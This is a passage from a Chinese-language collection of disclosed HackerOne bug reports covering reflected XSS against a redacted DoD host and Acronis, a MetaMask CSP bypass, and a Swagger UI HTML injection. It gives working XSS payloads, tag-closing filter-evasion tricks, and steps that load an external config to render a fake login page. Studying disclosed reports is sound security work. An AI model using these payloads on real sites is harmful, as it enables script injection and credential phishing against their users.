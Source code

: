 [U.S. Dept Of Defense | Report #2615670 - XSS on ███████ | HackerOne](https://hackerone.com/reports/2615670)

payload:

```
https://█████████/thredds/dap4/"1<ScRiPt>alert(9218)</ScRiPt>
```

```
<不敏感 不敏感="协议不敏感:敏感()"></不敏感>
```

### 19、MetaMask 浏览器的CSP忽略漏洞

[MetaMask | Report #1941767 - MetaMask Browser (on Android) does not enforce Content-Security-Policy header | HackerOne](https://hackerone.com/reports/1941767)

#### **漏洞概述**

- **漏洞类型**：内容安全策略（CSP）绕过
- **影响组件**：MetaMask 移动端浏览器（iOS/Android）
- **根本原因**：浏览器在处理网页请求时，错误地忽略了网站设置的 `Content-Security-Policy` 头
- **风险等级**：中高危（可能引发 XSS、数据泄露等连锁攻击）

### 20、特殊闭合技巧的RXSS

[Acronis | Report #1145712 - Reflected XSS on www.acronis.com/de-de/my/subscriptions/index.html | HackerOne](https://hackerone.com/reports/1145712)

payload:

```
'“1<!--></title/</textarea/</script/><Details/Open/OnToggle=confirm()>
```

```
闭合技巧：
1. <!-->闭合注释，因为-->可能直接会被接过滤，但是<!--不会，而<!-->就照成了混淆，也能达到-->的效果
2. 多标签连续闭合 </title/</textarea/</script/>，这些都是对父标签的闭合，并且都有效果
```

```
<Details/Open/OnToggle=confirm()> == <Details Open OnToggle=confirm()>
```

### 21、Swagger UI的HTML注入

复现：

1. Nevigate 到`https://35.156.81.191/swagger?`
2. 添加此效负载`config=https://gist.githubusercontent.com/zenelite123/af28f9b61759b800cb65f93ae7227fb5/raw/04003a9372ac6a5077ad76aa3d20f2e76635765b/test.json`
3. 放置有效负载后，您将看到已成功创建的假登录页面。

### 22、POST参数中的RXSS | CSRF -> XSS

[Acronis | Report #961787 - CSRF and XSS on www.acronis.com | HackerOne](https://hackerone.com/reports/961787)
